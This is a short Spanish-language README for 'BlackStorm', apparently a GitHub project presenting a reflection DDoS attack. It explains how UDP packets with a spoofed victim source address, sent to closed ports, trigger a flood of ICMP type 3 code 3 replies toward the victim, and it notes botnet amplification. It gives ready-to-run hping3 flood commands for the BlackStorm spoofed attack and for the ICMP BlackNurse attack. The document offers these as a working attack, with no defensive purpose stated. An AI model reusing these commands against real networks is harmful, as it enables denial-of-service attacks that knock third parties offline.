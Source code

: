 # blackstorm DDoS Atack

BlackStorm Ataque DDOS, envio paquetes UDP a activos IP con filtrado que reflexionan respondiendo con ICMP type 3 code 3, a IP origen "victima".

<img style="float:left" alt="blackstorm" src="https://github.com/hackingyseguridad/blackstorm/blob/main/blackstorm.png">

El atacante genera paquetes UDP con IP origen falsificada y envia a puertos UDP cerrados de dispositivos que generan como respuesta reflexión con respuestas ICMP "Tipo3 Code3" de tipo inalcanzable, a la IP origen falsa especificada. - esto puede llegar a provocar una inundación, si se utiliza como desde una botnet  y con un gran volumen de equipos en los que reflectar hacia la víctima..



Ataque Black Storm

hping3 -2 --flood <ip> -p 53 --spoof  <ip_victima>
 
Ataque ICMP BlackNurse 

hping3 -1 -C 3 -K 3 --flood <ip>


www.hackingyseguridad.com



